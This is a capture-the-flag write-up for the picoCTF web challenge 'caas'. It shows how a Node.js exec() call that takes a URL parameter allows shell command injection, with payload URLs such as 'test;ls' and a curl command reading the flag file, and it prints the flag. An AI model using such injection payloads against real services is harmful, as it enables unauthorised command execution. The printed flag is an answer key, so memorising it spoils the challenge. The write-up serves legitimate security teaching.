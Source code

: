 # caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## HINT

(None)

#### Challenge Endpoints

Download [index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)

## Approach

![Screenshot from 2023-11-04 15-45-27](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/c15712d5-5e6a-4fad-8733-68c861a9b788)

download the index.js file

![Screenshot from 2023-11-04 15-57-56](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/ee805987-14c4-4a56-885a-4869b104524e)

From this code we can know that uses dangerous function called `exec` we can run shell commands

![Screenshot from 2023-11-04 15-47-47](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/d56040b2-e52b-4068-aeb7-4c91583a5024)

And if there is any user input reflected inside this function, we can execute shell commands.

In above code `exec('/usr/games/cawsay ${req.params.message}')` this line take our input from parameter called `message` and pass it to `/usr/games/cowsay` and print this shape with our input

    https://caas.mars.picoctf.net/cowsay/our%20massage

![Screenshot from 2023-11-04 16-12-53](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/593e550b-0e81-4b95-acd8-96d5a8d5a403)

And we can inject our shell command with this 

    https://caas.mars.picoctf.net/cowsay/test;ls

the code will do inside `exec` function like this 

    exec('/usr/games/cawsay test;ls')

this code will do his job and do `ls` command after do his job

![Screenshot from 2023-11-04 16-20-18](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/52c16a9a-3028-4f75-b228-4265b2b2f570)

And get our flag 

    https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt
    or
    curl 'https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt/'

![Screenshot from 2023-11-04 15-53-08](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/61fcd9cb-078e-48e3-b62a-003fdc52e888)

# Flag

**picoCTF{mooooooooooooooooooooooooooooooooooooooooooooooooo

ooooooooooo0os}**

